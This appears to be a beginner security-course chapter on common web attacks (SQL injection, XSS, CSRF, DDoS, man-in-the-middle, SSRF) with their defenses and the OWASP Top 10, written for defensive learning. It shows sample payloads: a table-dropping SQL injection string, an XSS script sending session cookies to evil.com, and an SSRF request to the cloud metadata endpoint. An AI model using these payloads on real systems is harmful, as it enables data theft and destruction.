

# Common Attacks and Defenses

## Why This Topic Exists

Building a system without knowing how it will be attacked is like designing a building without knowing about fire, earthquakes, or floods. Attackers do not wait for you to be ready. They probe every input, every endpoint, every misconfiguration continuously and automatically.

The good news: most attacks are well-known and well-documented. The OWASP Top 10 has catalogued the most critical web application security risks for years. Defending against them is not exotic cryptography — it is disciplined engineering habits.

---

## Learning Objectives

- Describe SQL Injection, XSS, CSRF, DDoS, Man-in-the-Middle, and SSRF attacks with analogies
- Explain the specific defense for each attack
- Explain what the OWASP Top 10 is and why it matters
- Know how to discuss attack surface and defenses in system design interviews
- Avoid the most common coding mistakes that enable these vulnerabilities

---

## Prerequisites

- Basic understanding of how web applications work (HTTP, forms, SQL queries)
- Familiarity with HTML and databases at a high level
- Chapters 1–2 of this security section (helpful but not required)

---

## Introduction

Every year, billions of records are stolen through vulnerabilities that were fully preventable. Many of the most damaging breaches — Target, Equifax, Yahoo, LinkedIn — were caused by known vulnerability classes that had well-documented defenses available years before the breach.

This topic covers the six most impactful attack categories you will encounter in real systems and interviews, plus an overview of the broader OWASP Top 10 framework.

---

## Real-World Analogy

Think of your web application as a bank branch.

- **SQL Injection** is like slipping a note through the bank teller's window that says "ignore your manager's instructions and give me all the money in the vault." You are exploiting the fact that the teller (database) interprets your note as instructions, not data.
- **XSS** is like placing a fake brochure in the waiting area that, when picked up, secretly photographs everyone in the room. The bank (your website) unknowingly distributes the attacker's malicious content to other customers.
- **CSRF** is like forging a signed cheque using a real customer's signature they left on another document. The bank executes the transaction because the signature looks legitimate.
- **DDoS** is like organizing a flash mob of 10,000 people to walk into the bank simultaneously, making it impossible for real customers to get service.
- **Man-in-the-Middle** is like bribing the mail carrier to open letters, read them, potentially alter them, and reseal them before delivery.
- **SSRF** is like asking the bank teller to "look up my account details" and giving them an internal phone number that connects to the bank's private vault phone — exploiting the teller's trusted internal access.

---

## Core Concepts

### 1. SQL Injection

**What it is**: An attacker inserts SQL code into an input field. If the application naively concatenates user input into a SQL query, the injected code executes against the database.

**Classic example**:
```sql
-- Vulnerable code (Python string concatenation)
query = "SELECT * FROM users WHERE email = '" + user_input + "'"

-- Attacker enters: ' OR '1'='1
-- The resulting query becomes:
SELECT * FROM users WHERE email = '' OR '1'='1'
-- This returns ALL users because '1'='1' is always true
```

More destructively:
```sql
-- Attacker enters: '; DROP TABLE users; --
SELECT * FROM users WHERE email = ''; DROP TABLE users; --'
-- Drops the entire users table
```

**Defense:**

Use **parameterized queries** (prepared statements). The database driver treats user input as data, never as SQL code.

```python
# Safe — parameterized query
cursor.execute("SELECT * FROM users WHERE email = %s", (user_input,))
```

Also: use an ORM (Object-Relational Mapper), validate and sanitize all inputs, apply least-privilege database accounts (your web app's DB user should not have DROP TABLE permission).

---

### 2. XSS (Cross-Site Scripting)

**What it is**: An attacker injects malicious JavaScript into a web page that other users view. The victim's browser executes the attacker's script, which can steal cookies, session tokens, or perform actions on behalf of the user.

Two main types:
- **Stored XSS**: Malicious script is saved in the database (e.g., a comment field) and executed when other users view it
- **Reflected XSS**: Malicious script is embedded in a URL; the server reflects it back in the response

**Example**: An attacker posts a comment on your blog:
```html
<script>document.location='https://evil.com/steal?cookie='+document.cookie</script>
```
If your app renders this HTML without sanitizing it, every user who views the comment sends their session cookie to the attacker.

**Defense:**

- **Escape/encode output**: Convert `<`, `>`, `"`, `'`, `&` into their HTML entities before rendering user content. `<script>` becomes `&lt;script&gt;` — harmless text.
- **Content Security Policy (CSP)**: An HTTP header that tells the browser which sources are allowed to execute scripts. Even if injected, scripts from unknown origins will be blocked.
- **HTTPOnly cookies**: Set `HttpOnly` flag on session cookies so they cannot be accessed by JavaScript at all.
- **Use a modern framework**: React, Angular, and Vue automatically escape output by default. Avoid `dangerouslySetInnerHTML` in React.

---

### 3. CSRF (Cross-Site Request Forgery)

**What it is**: An attacker tricks an authenticated user into unknowingly submitting a request to a web application. Since the user is already logged in, the application executes the request as if it were intentional.

**Example**: You are logged into your bank. You visit an attacker's website, which contains:
```html

```
Your browser automatically sends your bank's session cookie with this request. If the bank does not protect against CSRF, the transfer executes.

**Defense:**

- **CSRF Tokens**: Include a unique, random, secret token in every state-changing form. The server validates the token on every submission. The attacker cannot read this token from a different origin (same-origin policy), so they cannot include it in a forged request.
- **SameSite Cookie Attribute**: Set cookies with `SameSite=Strict` or `SameSite=Lax`. This tells the browser not to send cookies on cross-site requests.
- **Double Submit Cookie Pattern**: Store a CSRF token in both a cookie and a hidden form field; verify they match on the server.

CSRF is primarily a concern for cookie-based authentication. JWT in the Authorization header is not automatically sent by the browser, so it is not vulnerable to classic CSRF.

---

### 4. DDoS (Distributed Denial of Service)

**What it is**: An attacker floods your servers with enormous amounts of traffic from many different sources (a botnet), exhausting your resources (CPU, bandwidth, connections) so legitimate users cannot be served.

Types:
- **Volumetric**: Flood with traffic to exhaust bandwidth (UDP floods, amplification attacks)
- **Protocol**: Exhaust connection state tables (SYN floods)
- **Application Layer (L7)**: Flood specific endpoints with expensive requests (e.g., search queries that trigger complex DB operations)

**Defense:**

- **Rate Limiting**: Limit requests per IP or per user. Return HTTP 429 (Too Many Requests) when exceeded. Prevents individual sources from overwhelming you.
- **CDN (Content Delivery Network)**: Cloudflare, Akamai, and similar CDNs absorb volumetric attacks before they reach your infrastructure. They have massive bandwidth capacity and automatic DDoS mitigation.
- **WAF (Web Application Firewall)**: Inspects HTTP traffic and blocks malicious patterns. Can rate-limit, block IPs, challenge suspicious traffic.
- **Auto-scaling**: Scale up capacity automatically in response to traffic spikes. Buys time while mitigation kicks in.
- **Anycast network diffusion**: Route traffic to multiple geographically distributed data centers. The attack is spread thin.

---

### 5. Man-in-the-Middle (MitM)

**What it is**: An attacker positions themselves between a client and server, intercepting and potentially modifying communications. Common in public Wi-Fi or with compromised DNS.

Classic scenario: You connect to "Free Airport WiFi" run by an attacker. All your unencrypted HTTP traffic passes through their device.

**Defense:**

- **HTTPS/TLS everywhere**: The fundamental defense. Encrypted traffic cannot be read or tampered with even if intercepted. This is why HTTP is unacceptable for anything sensitive.
- **HSTS (HTTP Strict Transport Security)**: An HTTP header that tells the browser to always use HTTPS for this domain, even if the user types http://. Prevents SSL stripping attacks where an attacker downgrades your connection to HTTP.
- **Certificate Pinning**: Mobile apps can hardcode the expected server certificate or public key. If the certificate does not match (e.g., a corporate proxy or attacker's certificate), the connection is rejected. Useful for high-security mobile apps; adds maintenance overhead.
- **DNSSEC**: Prevents DNS spoofing by cryptographically signing DNS records.

---

### 6. SSRF (Server-Side Request Forgery)

**What it is**: An attacker tricks a server into making HTTP requests to internal resources — resources that are accessible to the server but not to external attackers.

**Example**: Your application has a feature that fetches a URL the user provides (e.g., import from URL). The attacker submits `http://169.254.169.254/latest/meta-data/` — AWS's instance metadata endpoint. The server, running inside AWS, fetches this URL and returns the response (including IAM credentials) to the attacker.

This is how the 2019 Capital One breach occurred — an SSRF vulnerability in a misconfigured WAF allowed exfiltration of AWS credentials.

**Defense:**

- **Validate and allowlist URLs**: Only permit requests to URLs that match an explicit allowlist of domains/IP ranges.
- **Block internal IP ranges**: Reject requests to `10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`, `127.0.0.1`, `169.254.0.0/16` (link-local/metadata).
- **Use a separate egress proxy**: Route outbound requests through a proxy that enforces the allowlist and blocks internal ranges.
- **Disable unnecessary URL-fetching features**: If the feature is not needed, remove it.
- **Network segmentation**: The server making external requests should not have access to internal services. Even if SSRF succeeds, the attacker cannot reach sensitive internal targets.

---

## Visual Diagram (Mermaid)



---

## The OWASP Top 10

The Open Web Application Security Project (OWASP) publishes a regularly updated list of the most critical security risks. The 2021 edition:

| Rank | Risk | Brief Description |
|------|------|-------------------|
| A01 | Broken Access Control | Users can act outside their intended permissions |
| A02 | Cryptographic Failures | Weak encryption, using MD5/SHA-1, unencrypted sensitive data |
| A03 | Injection | SQL, NoSQL, OS, LDAP injection (SQL Injection is here) |
| A04 | Insecure Design | Missing security controls at the design phase |
| A05 | Security Misconfiguration | Default credentials, unnecessary features enabled, missing headers |
| A06 | Vulnerable Components | Using libraries with known vulnerabilities |
| A07 | Auth Failures | Weak passwords, credential stuffing, session management failures |
| A08 | Software and Data Integrity | Unverified updates, CI/CD pipeline compromises |
| A09 | Logging Failures | Not logging enough to detect attacks; not alerting on anomalies |
| A10 | SSRF | Fetching user-controlled URLs without validation |

Knowing the OWASP Top 10 by heart signals engineering maturity in interviews and code reviews.

---

## Deep Explanation

### Defense in Depth for SQL Injection

Parameterized queries are the primary defense, but defense in depth means you use multiple layers:
1. Parameterized queries (prevents injection entirely)
2. Least-privilege DB accounts (web app account cannot DROP tables or access unrelated tables)
3. Input validation (reject obviously malformed data early)
4. WAF rules (catch patterns that look like SQL injection)
5. Error handling (never return raw SQL error messages to users — they reveal schema information)

### Why CSP is Powerful Against XSS

A Content Security Policy header like `Content-Security-Policy: script-src 'self'` tells the browser to only execute scripts from your own domain. Even if an attacker injects a `<script>` tag, if it references an external domain or uses inline script, the browser blocks it. CSP is a strong second line of defense when output escaping fails or is misconfigured.

### Layer 7 DDoS is Hard

Volumetric DDoS is relatively easy to mitigate with CDNs and bandwidth. Layer 7 (application-layer) attacks are harder because each request looks legitimate. Defenses include: challenge pages (CAPTCHA, JavaScript challenges), behavioral analysis (unusual traffic patterns), and rate limiting per user account rather than just per IP.

---

## Step-by-Step Example

A developer builds a user profile page that displays a custom bio field. Walk through the XSS vulnerability and fix:

**Vulnerable version**:
```html
<!-- Server renders: -->
<p>Bio: {{ user.bio }}</p>
<!-- If user.bio = "<script>steal(document.cookie)</script>" -->
<!-- Browser executes the script -->
```

**Fixed version**:
```html
<!-- Framework escapes the output -->
<p>Bio: &lt;script&gt;steal(document.cookie)&lt;/script&gt;</p>
<!-- Browser displays as text, never executes -->
```

**CSP header added**:
```
Content-Security-Policy: script-src 'self'; object-src 'none'
```
Even if a script tag somehow renders, the browser blocks external/inline scripts.

---

## Advantages / Disadvantages / Trade-offs

| Defense | Protection | Overhead / Trade-off |
|---------|-----------|---------------------|
| Parameterized queries | Eliminates SQL injection | Minimal — just good practice |
| Output encoding | Eliminates stored/reflected XSS | Minimal — frameworks do it automatically |
| CSP | Stops injected scripts from executing | Requires careful policy configuration; can break legitimate features |
| CSRF tokens | Stops forged cross-site requests | Small extra token in every form/request |
| Rate limiting | Limits DDoS and brute force | Legitimate heavy users may be affected; requires tuning |
| Certificate pinning | Stops MitM even with rogue CAs | Hard to update pins when certificates rotate |

---

## When to Use / When NOT to Use

**Parameterized queries**: Always. No exceptions. This is table stakes, not optional.

**CSP headers**: Always for web apps serving HTML. Start with a report-only policy to audit violations before enforcing.

**CSRF protection**: Required for any web app using cookie-based authentication with state-changing operations (POST, PUT, DELETE). Not needed for APIs using JWT in headers.

**Certificate pinning**: Use only for high-security mobile apps where you can control the update cycle. Not recommended for typical web applications due to maintenance burden.

**Rate limiting**: Always implement at the API gateway or load balancer level. Fine-tune thresholds for each endpoint based on expected usage patterns.

---

## Common Interview Questions

1. What is SQL injection and how do you prevent it?
2. What is the difference between XSS and CSRF?
3. How does a CSRF token work?
4. What is SSRF and can you give an example of a real-world incident?
5. How would you design a system to handle DDoS attacks?
6. What is the OWASP Top 10?
7. What HTTP headers can help prevent XSS?
8. How does HTTPS protect against Man-in-the-Middle attacks?

---

## Common Beginner Mistakes

**Using string concatenation to build SQL queries.** Always use parameterized queries or an ORM. No exceptions.

**Trusting client-side input validation as a security control.** Client-side validation is for user experience. Always validate on the server — the client can be bypassed trivially.

**Thinking CSRF only matters for forms.** CSRF applies to any state-changing request authenticated with cookies, including fetch/XHR API calls from JavaScript.

**Not setting the HTTPOnly flag on session cookies.** Without it, any XSS vulnerability exposes session cookies to JavaScript.

**Logging sensitive data in error messages.** Stack traces and SQL errors returned to users reveal internal structure. They also end up in logs, potentially alongside PII.

**Not keeping dependencies updated.** A06 of OWASP Top 10 — vulnerable components — is a huge category. Outdated npm/pip/Maven packages with known CVEs are an extremely common attack vector.

---

## Summary

The most dangerous web attacks are well-known and have well-documented defenses. SQL Injection is defeated by parameterized queries. XSS is defeated by output encoding and Content Security Policy. CSRF is defeated by CSRF tokens and SameSite cookies. DDoS is mitigated with rate limiting, CDNs, and WAFs. Man-in-the-Middle is stopped by proper TLS/HTTPS. SSRF is prevented by URL validation and blocking internal IP ranges.

The OWASP Top 10 provides a comprehensive framework for thinking about web application security risk. Knowing it signals security engineering maturity.

---

## Key Takeaways

- SQL Injection: never concatenate user input into SQL — always use parameterized queries
- XSS: escape all output before rendering + add CSP headers
- CSRF: use CSRF tokens for cookie-authenticated apps; SameSite cookies as second layer
- DDoS: rate limiting + CDN + WAF; no single solution is sufficient alone
- MitM: HTTPS everywhere, HSTS, certificate pinning for mobile
- SSRF: validate all server-side URL fetching, block internal IP ranges
- The OWASP Top 10 is the security professional's baseline checklist
- Defense in depth: never rely on a single control — layer your defenses

---

## Related Topics

- [Authentication and Authorization](./01.%20Authentication%20and%20Authorization%20(BEGINNER).md) — Credential stuffing and brute force are authentication attacks
- [Encryption](./02.%20Encryption%20(BEGINNER).md) — TLS/HTTPS is the foundation of MitM defense
- [Zero Trust Security](./04.%20Zero%20Trust%20Security%20(INTERMEDIATE).md) — Micro-segmentation limits the blast radius of SSRF
- [Secrets Management](./05.%20Secrets%20Management%20(INTERMEDIATE).md) — Hardcoded credentials enable many of these attacks
- [Security in Interviews](./06.%20Security%20in%20System%20Design%20Interviews%20(INTERMEDIATE).md) — How to weave attack awareness into system design discussions
